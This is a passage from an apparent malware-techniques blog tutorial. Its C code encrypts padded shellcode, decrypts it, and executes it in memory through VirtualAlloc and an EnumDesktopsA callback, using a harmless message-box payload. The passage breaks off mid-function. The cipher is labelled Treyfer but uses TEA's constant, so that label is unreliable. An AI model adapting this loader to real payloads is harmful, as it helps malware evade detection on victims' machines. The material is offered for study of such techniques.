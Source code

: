 ```cpp
  memset(padded, 0x90, pad_len); // pad the shellcode with 0x90
  memcpy(padded, my_payload, len); // copy the shellcode to the padded buffer

  // encrypt the padded shellcode
  for (int i = 0; i < pad_len; i += BLOCK_SIZE) {
    treyfer_encrypt(&padded[i], key);
  }

  printf("encrypted payload:\n");
  for (int i = 0; i < sizeof(padded); i++) {
    printf("\\x%02x", padded[i]);
  }
  printf("\n\n");

  // decrypt the padded shellcode
  for (int i = 0; i < pad_len; i += BLOCK_SIZE) {
    treyfer_decrypt(&padded[i], key);
  }

  printf("decrypted payload:\n");
  for (int i = 0; i < sizeof(padded); i++) {
    printf("\\x%02x", padded[i]);
  }
  printf("\n\n");

  // executing the decrypted payload in memory
  LPVOID mem = VirtualAlloc(NULL, sizeof(padded), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, pad_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);

  return 0;
}
```

As you can, see in the main function I just encrypted/decrypted `meow-meow` messagebox payload.     

Full source code `hack.c`:     

```cpp
/*
 * hack.c - encrypt and decrypt 
 * payload via Treyfer. 
 * Simple C implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2024/11/30/malware-cryptography-35.html
 */
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

#define KEY_SIZE 16
#define BLOCK_SIZE 8
#define ROUNDS 12
#define SHIFT 1

// treyfer encryption function
void treyfer_encrypt(unsigned char *data, unsigned char *key) {
  unsigned int v0 = *(unsigned int *)data;
  unsigned int v1 = *(unsigned int *)(data + 4);
  unsigned int sum = 0;
  unsigned int delta = 0x9e3779b9;
  
  for (int i = 0; i < ROUNDS; i++) {
```